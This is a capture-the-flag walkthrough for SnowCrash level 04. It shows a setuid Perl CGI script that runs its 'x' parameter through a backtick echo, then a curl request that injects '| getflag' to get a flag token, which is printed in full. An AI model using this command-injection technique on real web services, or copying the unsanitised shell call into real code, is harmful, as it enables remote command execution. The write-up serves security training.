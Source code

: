 Level 04
========

*	This time we spawn with one file:
	```console
	level04@SnowCrash:~$ ls -l 
	total 4
	-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
	```
*	But like everytime -> We use find
	```console
	level04@SnowCrash:~$ find / -type f -group level04 2>/dev/null | grep -v find | grep -v proc | grep -v rofs
	/var/www/level04/level04.pl
	```
*	They have the exact same Perl script, the only difference here is the permissions they are given
	```console
	-rwsr-sr-x 1 flag04 level04 152 Mar 5 2016 level04.pl
	-r-xr-x--- 1 flag04 level04 152 Mar 12 2016 level04.pl
	```
*   Looking at the code we can see that it is vulnerable to command injection :
	```perl
	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
		$y = $_[0];
		print `echo $y 2>&1`;
	}
	x(param("x"));
	```
	We can in fact see that the content of `y` is printed via the `echo` command !
*	So I tried something like this using the hint given in comment :
	```console
	level04@SnowCrash:~$ curl -X POST -d "x= $PWD" http://localhost:4747
	/home/user/level04
	```
*	This one, I found tricky because we can see echo is executed but what is interesting is that if we use a pipe, ANYTHING is executed :
	```console
	level04@SnowCrash:~$ curl -X POST -d "x= | getflag" http://localhost:4747
	Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
	```